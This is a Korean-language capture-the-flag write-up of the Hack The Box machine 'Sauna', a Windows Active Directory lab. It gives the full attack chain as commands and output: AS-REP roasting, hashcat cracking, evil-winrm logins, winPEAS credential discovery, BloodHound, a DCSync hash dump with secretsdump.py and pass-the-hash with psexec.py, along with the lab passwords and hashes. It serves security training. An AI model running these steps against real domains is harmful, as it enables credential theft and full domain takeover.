

# Sauna

## TARGET IP: 10.129.95.180
## 서비스 분석
nmap 으로 현재 대상호스트의 열려있는 포트 탐색
```bash
# open되어 있는 포트를 빠르게 탐색
nmap -Pn -p- -n --open --max-retries 1 --min-rate 2000 $ip
PORT      STATE SERVICE
53/tcp    open  domain
80/tcp    open  http
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
5985/tcp  open  wsman
9389/tcp  open  adws
49667/tcp open  unknown
49673/tcp open  unknown
49674/tcp open  unknown
49675/tcp open  unknown
49688/tcp open  unknown
49696/tcp open  unknown

# 열려있는 포트만 자세하게 스캔캔
nmap -sV -sC -oA nmap/Sauna $ip -p 53,80,88,135,139,389,445,464,593,636,3268,3269,5985,9389,49667,49673,49674,49675,49688,49696

PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: Egotistical Bank :: Home
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-08-07 18:19:35Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: EGOTISTICAL-BANK.LOCAL0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: EGOTISTICAL-BANK.LOCAL0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
49667/tcp open  msrpc         Microsoft Windows RPC
49673/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49674/tcp open  msrpc         Microsoft Windows RPC
49675/tcp open  msrpc         Microsoft Windows RPC
49688/tcp open  msrpc         Microsoft Windows RPC
49696/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: SAUNA; OS: Windows; CPE: cpe:/o:microsoft:windows
```
- 53/tcp    open  domain        Simple DNS Plus
- 80/tcp    open  http          Microsoft IIS httpd 10.0
- 88/tcp    open  kerberos-sec  Microsoft Windows Kerberos 
- 135/tcp   open  msrpc         Microsoft Windows RPC
- 139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
- 389/tcp   open  ldap          Microsoft Windows Active 
- 445/tcp   open  microsoft-ds?
- 464/tcp   open  kpasswd5?
- 593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP
- 636/tcp   open  tcpwrapped
- 3268/tcp  open  ldap          Microsoft Windows Active 
- 3269/tcp  open  tcpwrapped
- 5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 
- 9389/tcp  open  mc-nmf        .NET Message Framing
- 49667/tcp open  msrpc         Microsoft Windows RPC
- 49673/tcp open  ncacn_http    Microsoft Windows RPC over HTTP
- 49674/tcp open  msrpc         Microsoft Windows RPC
- 49675/tcp open  msrpc         Microsoft Windows RPC
- 49688/tcp open  msrpc         Microsoft Windows RPC
- 49696/tcp open  msrpc         Microsoft Windows RPC  

열려있는 포트가 많다 그중 88 Kerberos서비스와 ldap 포트들이 열려있는 걸로 보아 현재 타겟호스트는 AD(Active Domain)으로 보인다  

```bash
# smb공유폴더 중 접근가능한 파일이 있나 시도 했으나 실패
smbclient -L //$ip/ -N
Anonymous login successful

        Sharename       Type      Comment
        ---------       ----      -------
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.129.95.180 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available
```

80번 포트 웹서비스부터 분석
## 웹서비스 분석


Author: W3layouts  
Author URL: http://w3layouts.com  
W3layouts란 사람이 작성한 템플릿으로 만들어진 웹페이지란걸 페이지소스를 통해 확인


```bash
#gobuster를 통해 웹디렉토리 브루트포싱 탐색
gobuster dir -u http://10.129.95.180/ -w /usr/share/wordlists/dirb/common.txt -x php,txt
/css                  (Status: 301) [Size: 148] [--> http://10.129.95.180/css/]
/fonts                (Status: 301) [Size: 150] [--> http://10.129.95.180/fonts/]
/images               (Status: 301) [Size: 151] [--> http://10.129.95.180/images/]
/Images               (Status: 301) [Size: 151] [--> http://10.129.95.180/Images/]
/index.html           (Status: 200) [Size: 32797]
```
별다른 디렉토리나 파일을 찾지 못함  
웹페이지를 돌아다니다가 about.html페이지에서 팀 멤버 이름을 발견

Fergus Smith
Shaun Coins
Hugo Bear
Bowie Taylor
Sophie Driver
Steven Kerb

## AS-REP Roasting 공격격
유저이름 users.txt에 저장
```bash
git clone https://github.com/urbanadventurer/username-anarchy.git
cd username-anarchy
./username-anarchy --input-file names.txt  --select-format first.last > userlist.txt
./username-anarchy --input-file names.txt  --select-format flast >> userlist.txt 
```
userlist.txt로 user 계정 리시트 작성  
userlist.txt기반으로 Kerberos pre-authentication 비활성화된 계정 탐색
```bash 
# GetNPUsers.py 사용해서 AS-REP Roasting 대상 사용자 찾기
GetNPUsers.py EGOTISTICAL-BANK.LOCAL/ -usersfile userlist.txt -no-pass -dc-ip 10.129.95.180 

$krb5asrep$23$fsmith@EGOTISTICAL-BANK.LOCAL:c80258b9434389a23cf4ea0f99775130$37de1a0fdb6b1c53014c11c800568c90f677809a0021171a936a8adf1b91c218aabdccd4b6623e37448f160cdba82b7821bff30b33d725ef8d324d126d6df9edf7682efdbfdd639723fc707dfb85db39016a84d6d8987ad28d0d7f45ef7d3860f8e69f4ae010a26d55c2365137f980aea211d1080786c8898945d80534a9f69adfefe579d8216c4bdabda252b59698214716dd6f3c7659929e0c7aa8aad4934df322e92f74b837f8f71ef24cfb90f69a720f62426a9b260fef38785cd550088b30eae79fbf21b0e687618dbd9650e34051a0320bed5978c9889e7331bcb8d25099649c47bb2e6fcdd52a16ea335781ca361795c825bc33851bf39caedd364222
```
fsmith의 암호화된 hash를 얻었다  

## 해시 크랙랙
> https://hashcat.net/wiki/doku.php?id=example_hashes  


hashcat wiki에서 해당 해시값 코드를 찾음 18200

hashcat을 사용해서 hash크랙 시도

```bash
hashcat -m 18200 -a 0 hash.txt /usr/share/wordlists/rockyou.txt

$krb5asrep$23$fsmith@EGOTISTICAL-BANK.LOCAL:c80258b9434389a23cf4ea0f99775130$37de1a0fdb6b1c53014c11c800568c90f677809a0021171a936a8adf1b91c218aabdccd4b6623e37448f160cdba82b7821bff30b33d725ef8d324d126d6df9edf7682efdbfdd639723fc707dfb85db39016a84d6d8987ad28d0d7f45ef7d3860f8e69f4ae010a26d55c2365137f980aea211d1080786c8898945d80534a9f69adfefe579d8216c4bdabda252b59698214716dd6f3c7659929e0c7aa8aad4934df322e92f74b837f8f71ef24cfb90f69a720f62426a9b260fef38785cd550088b30eae79fbf21b0e687618dbd9650e34051a0320bed5978c9889e7331bcb8d25099649c47bb2e6fcdd52a16ea335781ca361795c825bc33851bf39caedd364222:Thestrokes23
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 18200 (Kerberos 5, etype 23, AS-REP)
Hash.Target......: $krb5asrep$23$fsmith@EGOTISTICAL-BANK.LOCAL:c80258b...364222
Time.Started.....: Thu Aug  7 09:04:04 2025 (10 secs)
Time.Estimated...: Thu Aug  7 09:04:14 2025 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
...
```
fsmith의 평문 비밀번호를 얻었다 Thestrokes23

## 사용자 계정 사용

smb에 fsmith 사용자 계정으로 접근
```bash
smbclient -L //10.129.95.180 -U 'fsmith'
Password for [WORKGROUP\fsmith]: Thestrokes23
        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share 
        print$          Disk      Printer Drivers
        RICOH Aficio SP 8300DN PCL 6 Printer   We cant print money
        SYSVOL          Disk      Logon server share 
# 유력한 공유파일 SYSVOL(도메인 전체 GPO, 스크립트, 정책 저장소)

smbclient //10.129.95.180/SYSVOL -U fsmith
smb: \EGOTISTICAL-BANK.LOCAL\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\> ls
  .                                   D        0  Thu Jan 23 00:51:29 2020
  ..                                  D        0  Thu Jan 23 00:51:29 2020
  Microsoft                           D        0  Thu Jan 23 00:44:40 2020
  Registry.pol                        A     2806  Thu Jan 23 00:51:29 2020
#smb파일내부를 둘러보던중 Registry.pol파일을 발견
smb: \EGOTISTICAL-BANK.LOCAL\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\> get Registry.pol 
...
EFS1(0&
EFS File Encryption Certificate0 
200123055129Z
21191230055129Z0P1
Administrator1
EFS1(0&
EFS File Encryption Certificate0
1J#V
9Xq>Q
`0^0
Administrator@EGOTISTICALBANK
...

#Administrator@EGOTISTICALBANK 계정정보로 보이는 문자열이 추출됨
```
하지만 비밀번호로 보이는 것은 없다

## WINRM 리버스셸 연결


```bash
┌──(root㉿kali)-[~/Hack_The_Box/Sauna]
└─# evil-winrm -i 10.129.95.180 -u fsmith -p Thestrokes23
# 윈도우 리버스셸 연결
*Evil-WinRM* PS C:\Users\FSmith\Documents> 

*Evil-WinRM* PS C:\Users\FSmith\Desktop> cat user.txt
e1cddaf3ba2969bfec01161d66f0abfc

```

## POST-EXPLOIT


```bash
#winpeas로 대상호스트 분석
┌──(root㉿kali)-[~/Hack_The_Box/Sauna]
└─# wget https://github.com/peass-ng/PEASS-ng/releases/download/20250801-03e73bf3/winPEASx64.exe   

*Evil-WinRM* PS C:\Users\FSmith\Desktop> upload /root/Hack_The_Box/Sauna/winPEASx64.exe
*Evil-WinRM* PS C:\Users\FSmith\Desktop> ./winPEASx64.exe | Out-File -Encoding ASCII winpeas_output.txt
*Evil-WinRM* PS C:\Users\FSmith\Desktop> cat winpeas_output.txt
...
???????????? Looking for AutoLogon credentials
    Some AutoLogon credentials were found
    DefaultDomainName             :  EGOTISTICALBANK
    DefaultUserName               :  EGOTISTICALBANK\svc_loanmanager
    DefaultPassword               :  Moneymakestheworldgoround!
...
#자동로그인 유저 svc_loanmanager의 비밀번호를 발견했다 Moneymakestheworldgoround!

*Evil-WinRM* PS C:\Users> ls


    Directory: C:\Users

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----        1/25/2020   1:05 PM                Administrator
d-----        1/23/2020   9:52 AM                FSmith
d-r---        1/22/2020   9:32 PM                Public
d-----        1/24/2020   4:05 PM                svc_loanmgr

# 사용자 이름 svc_loanmgr로 evil-winrm연결

┌──(root㉿kali)-[~/Hack_The_Box/Sauna]
└─# evil-winrm -i 10.129.124.241 -u svc_loanmgr -p 'Moneymakestheworldgoround!'


┌──(root㉿kali)-[~/Hack_The_Box/Sauna]
└─# cd /opt    
┌──(root㉿kali)-[/opt]
└─# git clone https://github.com/BloodHoundAD/BloodHound.git
┌──(root㉿kali)-[/opt]
└─# cd BloodHound/Collectors
               
*Evil-WinRM* PS C:\Users\svc_loanmgr\Desktop> upload SharpHound.exe
*Evil-WinRM* PS C:\Users\svc_loanmgr\Desktop> ./SharpHound.exe

*Evil-WinRM* PS C:\Users\svc_loanmgr\Desktop> download 20250807170921_BloodHound.zip

┌──(root㉿kali)-[~/Hack_The_Box/Sauna]
└─# unzip 20250807170921_BloodHound.zip 
┌──(root㉿kali)-[~/Hack_The_Box/Sauna]
└─# neo4j console 
┌──(root㉿kali)-[~/Hack_The_Box/Sauna]
└─# bloodhound -no-sandbox


```
bloodhound에 Administrator에서 zip파일을 import하고 Explore에서 SVC_LOANMGR@EGOTISTICAL-BANK.LOCAL사용자를 검색하면  EGOTISTICAL-BANK.LOCAL 와의 GetChangesAll edge로된 연결을 확인가능하다

Linux abuse를 보면 dcsync attack 로 NTLM hash를 dump할 수 있단걸 확인  




```bash
secretsdump.py 'svc_loanmgr:Moneymakestheworldgoround!@10.129.124.241'  

Administrator:500:aad3b435b51404eeaad3b435b51404ee:823452073d75b9d1cf70ebdf86c7f98e:::
# 어디민 hash가 덤핑됐다
psexec.py 'EGOTISTICAL-BANK.LOCAL/Administrator@10.129.124.241' -hashes :823452073d75b9d1cf70ebdf86c7f98e
C:\Windows\system32> whoami
nt authority\system

C:\Users\Administrator\Desktop> type root.txt
efa2b95980026c62fc504cb7058b4cdc

```


